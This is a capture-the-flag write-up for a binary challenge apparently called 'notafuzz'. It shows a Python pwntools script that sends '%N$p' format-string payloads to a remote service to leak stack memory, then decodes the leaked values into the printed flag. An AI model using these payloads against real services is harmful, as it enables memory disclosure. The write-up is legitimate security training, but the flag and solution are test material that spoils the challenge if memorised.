 First I opened the program with netcat and tryed it and I was thinking that I can use some vulnerable string like %s %p %x but no luck
Then I tryed to open the binary file with Binary Ninja. I found the main and the input that we give and renamed it to **input** and the for loop iterator to **i**
![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/notafuzz/images/1.png?raw=true)

I found that something special is happening at **i = 3**
![img](https://raw.githubusercontent.com/L1ghtDream/cyberedu/master/notafuzz/images/2.png?raw=true)

But the two ifs are the same I did not found any diferences here in Binary Ninja so I switched to IDA Pro but it could not disassable it.
After that I tryed to use the vulnerable string like %s %p %x at the 3rd iteration and we have an output
Here are the results

```
%p -> 0x1
%x -> 1
```

So I decied to write a code to loop thru all 1000 iterations and see what I get.

```
from pwn import *
from ptrlib import *

def leakAddr(memOffset):
	sock = Socket('34.89.241.255', 30179)
	sock.recvuntil('Do you have the control?')
	sock.sendline('A')
	sock.recvuntil('Do you have the control?')
	sock.sendline('A')
	sock.recvuntil('Do you have the control?\r\n')
	sock.sendline(' | %' + str(memOffset) + '$p | ')
	resp = sock.recvuntil('Do you have the control?')
	sock.close()
	return resp.decode().split(' | ')[3]

for i in range(1000):
	f = open("output.txt", "a")
	f.write(str(i) + " " + leakAddr(i) + "\n")
	f.close
	print(str(i))
```


At iteration **136** I got some values so I stoped the script and copyed them and user the decoder form better-cat to decode it. 

```
136 0x585858587b667463
137 0x5858585836646166
138 0x5858585830343335
139 0x5858585866303831
140 0x5858585863346236
141 0x5858585839346636
142 0x5858585831646164
143 0x5858585861643833
144 0x5858585834646565
145 0x5858585866633734
146 0x5858585839663332
147 0x5858585833363439
148 0x5858585831383435
149 0x5858585835323966
150 0x5858585830663135
151 0x5858585863626435
152 0x5858585830373036
153 0x585858587d
```

**585858587b6674635858585836646166585858583034333558585858663038315858585863346236585858583934663658585858316461645858585861643833585858583464656558585858666337345858585839663332585858583336343958585858313834355858585835323966585858583066313558585858636264355858585830373036585858587d**

And got

**}XXXX6070XXXX5dbcXXXX51f0XXXXf925XXXX5481XXXX9463XXXX23f9XXXX47cfXXXXeed4XXXX38daXXXXdad1XXXX6f49XXXX6b4cXXXX180fXXXX5340XXXXfad6XXXXctf{XXXX**

Still not what I wanted but it on the right way so lets continue. But i quiqly realised that there was a mistake I did not reversed them while copying them so I did that and the new string was

**585858587d5858585830373036585858586362643558585858306631355858585835323966585858583138343558585858333634395858585839663332585858586663373458585858346465655858585861643833585858583164616458585858393466365858585863346236585858586630383158585858303433355858585836646166585858587b667463**

now I got this

**ctf{XXXXfad6XXXX5340XXXX180fXXXX6b4cXXXX6f49XXXXdad1XXXX38daXXXXeed4XXXX47cfXXXX23f9XXXX9463XXXX5481XXXXf925XXXX51f0XXXX5dbcXXXX6070XXXX}XXXX**

I just removed the XXXX I do not know what where those but anyway this is the flag

**ctf{fad65340180f6b4c6f49dad138daeed447cf23f994635481f92551f05dbc6070}**
